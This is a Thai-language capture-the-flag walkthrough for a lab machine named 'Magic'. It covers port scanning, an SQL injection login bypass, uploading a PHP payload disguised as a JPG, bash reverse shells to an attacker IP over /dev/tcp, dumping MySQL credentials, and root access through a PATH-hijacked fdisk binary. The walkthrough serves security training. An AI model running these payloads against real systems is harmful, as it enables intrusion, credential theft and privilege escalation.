# Recon

## TCP Scan
```bash
./scan.sh 10.10.10.185
[*] Running rustscan...
[*] Running nmap on ports: 22,80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-18 20:20 +07
Nmap scan report for 10.10.10.185 (10.10.10.185)
Host is up (0.032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Magic Portfolio
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.62 seconds

```

ทดสอบใส่ SQLi ไปที่หน้า Login ปรากฎว่าสามารถ Bypass ได้ไปที่หน้า upload.php 

```sql
' or 1=1-- -
```


![](./IMG/001.png)

upload.php
![](./IMG/002.png)


## Bypass upload 

จากการทดสอบเราจะไม่สามารถ upload ไฟล์ php shell ไปได้ตรงๆ โดยระบบจะมีการ Filter ไฟล์ที่ Upload เข้าไป โดยจะอนุญาตเฉพาะ jpg, png เท่านั้น 

ทั้งนี้ เราสามารถใช้ cat.php.jpg ไปได้ โดยทำการเพิ่ม payload ของ php แทรกไประหว่างไฟล์

![](./IMG/003.png)

ทั้งนี้ จากการตรวจสอบหน้า index.php เราจะเห็นว่าระบบจะมีการเก็บไฟล์ไว้ที่ /images/uploads/ชื่อไฟล์ ทำให้เราสามารถทราบได้ว่าปลายทางที่เก็บอยู่ที่ใด 
![](./IMG/004.png)

## Shell as www-data

จากนั้นทดสอบโจมตีด้วย Reverse shell ก็จะสามารถเข้าถึงเป้าหมายได้ 
```http
http://10.10.10.185/images/uploads/cat2.php.jpg?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.34/443%200%3E%261%27
```

![](./IMG/005.png)

## Enum host 

เนื่องจากว่าเป้าหมายเป้นเว็บไซต์จึงเข้าไปตรวจสอบบนไฟล์ /var/www/Magic จะพบ config ไฟล์ของ db.php5 ทำให้เป็นข้อมูลของชื่อผู้ใช้งานและรหัสผ่าน สำหรับเข้าใช้งาน mysql 

![](./IMG/006.png)

```bash
mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
```

![](./IMG/007.png)

## Shell as theseus 
จะพบรหัสผ่านของ admin ซึ่งหากเราลอง su จะสามารถเข้าใช้งานได้ 

```bash
su theseus
Password: Th3s3usW4sK1ng

theseus@magic:/var/www/Magic$ whoami 
whoami 
theseus
theseus@magic:/var/www/Magic$ 
```


## Become ROOT

```bash
find / -user root -type f -perm -4000 -ls 2>/dev/null
```


จะพบว่ามีบรรทัดหนึ่งที่น่าสนใจโดยมีสิทธิของกลุ่ม users และมี owner เป็น root 
```bash
   393232     24 -rwsr-x---   1 root     users              22040 Oct 21  2019 /bin/sysinfo
```

จากนั้นให้ทำการวิเคราะห์ binary  ดังกล่าวด้วยการรัน sysinfo จากนั้นตรวจสอบด้วยคำสั่ง ltrace เพื่อที่จะตรวจสอบว่า Binary ดังกล่าวมีการเรียกใช้อะไรจากภายนอกบ้าง 

```bash
sysinfo

ltrace sysinfo
```

จากการรันเราจะพบว่าโปรแกรม sysinfo มีการเรียกใช้งาน fdisk ด้วยซึ่งคาดว่าจะมีการรันด้วยสิทธิ ROOT  

![](./IMG/008.png)

โดยคำสั่ง popen เป็นการเปิดใช้งาน Process บน Linux ซึ่งจากบรรทัดดังกล่าวเป็นการเรียกใช้ fidisk ซึ่งหากไม่มีการระบุ full path นั่นหมายความว่าเราก็สามารถ Hijack Binary ได้เช่นกัน 

จากนั้นทำการแทรก binary ของ fdisk ด้วย Reverse shell ดังต่อไปนี้ 
```bash
theseus@magic:~$ cd /dev/shm
cd /dev/shm

theseus@magic:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.34/443 0>&1' 

</bash\n\nbash -i >& /dev/tcp/10.10.14.34/443 0>&1' 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.34/443 0>&1

theseus@magic:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.34/444 0>&1'  > fdisk


<nbash -i >& /dev/tcp/10.10.14.34/444 0>&1'  > fdisk


theseus@magic:/dev/shm$ chmod +x fdisk


chmod +x fdisk

theseus@magic:/dev/shm$ export PATH="/dev/shm:$PATH"

export PATH="/dev/shm:$PATH"

theseus@magic:/dev/shm$ sysinfo

```

และฝั่งผู้โจมตีการรอรับ  reverse shell ก็จะได้สิทธ้ root 

![](./IMG/009.png)


# PWNED